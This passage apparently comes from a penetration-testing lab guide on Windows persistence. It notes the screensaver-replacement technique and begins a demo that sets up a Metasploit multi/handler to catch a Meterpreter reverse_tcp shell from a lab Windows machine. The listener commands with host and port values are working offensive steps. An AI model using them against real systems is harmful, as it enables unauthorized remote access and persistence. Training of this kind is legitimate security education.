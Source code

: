 - **MITRE technique: [Event Triggered Execution: Screensaver](https://attack.mitre.org/techniques/T1546/002/)**
  - This technique allows the pen tester to replace the executable that is used to display the screensaver with a malicious executable or payload. 

These are just some examples of persistence techniques in Windows, and this isn't a comprehensive list.
	
	
#### Windows Persistence Demo

To demonstrate persistence using malicious services, let's use `msfvenom` to generate a Meterpreter payload, transport it to the Windows machine, and register a service using it. 

- This requires an active shell as SYSTEM on the Windows 10 machine. Note: The first six steps listed detail how to open a Meterpreter shell on the Windows 10 machine if you do not have an active session already.

1. Log in to Kali and open a terminal. Start Metasploit with the following command:

     - `msfconsole`
	 
    **Note:** If you already have Metasploit open and running, kill any jobs that may be running in the background with `jobs -K`.

2. Load the `multi/handler` module with the following command:

	 - `use exploit/multi/handler`
	
3. Set the parameters to listen for the payload with the following commands:

	 - `set LHOST 172.22.117.100`
	 - `set LPORT 4444`
	 - `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	 - `run -j`

     ![A screenshot depicts the results of these commands.](Images/runmulti.PNG)	
